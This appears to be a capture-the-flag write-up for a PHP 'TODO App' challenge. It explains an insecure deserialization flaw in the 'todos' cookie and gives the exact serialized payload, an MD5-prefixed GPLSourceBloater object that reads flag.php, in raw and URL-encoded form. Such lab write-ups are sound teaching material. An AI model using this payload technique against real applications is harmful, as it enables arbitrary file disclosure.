 # Name: TODO App

## Vulnerability

PHP Object Injection / PHP Insecure Object Deserialization

## Exploit

If you click on the `Open source license` bottom link, you will see the license page and, at the end, the source code to help you craft the payload.
You need to set the right value for the `todos` cookie.

The first 32 bytes of the cookie value should be the md5 hash of the rest of it.

The rest should be serialized data of a `GPLSourceBloater` object, which you can notice has an attribute called `source` that represents the name of the file to be rendered. We will set it to `flag.php` to get the flag.

So we have to make a request with this Cookie:
```javascript
todos = encodeURIComponent(
    '760463360e4919ca238d1566fc26661f'+
    'a:1:{i:0;O:16:"GPLSourceBloater":1:{s:6:"source";s:8:"flag.php";}}'
)
```

You can use the `encodeURIComponent` JavaScript function.

`Cookie: todos=760463360e4919ca238d1566fc26661fa%3A1%3A%7Bi%3A0%3BO%3A16%3A%22GPLSourceBloater%22%3A1%3A%7Bs%3A6%3A%22source%22%3Bs%3A8%3A%22flag.php%22%3B%7D%7D`

Exploit in `../sol/solution.sh`.
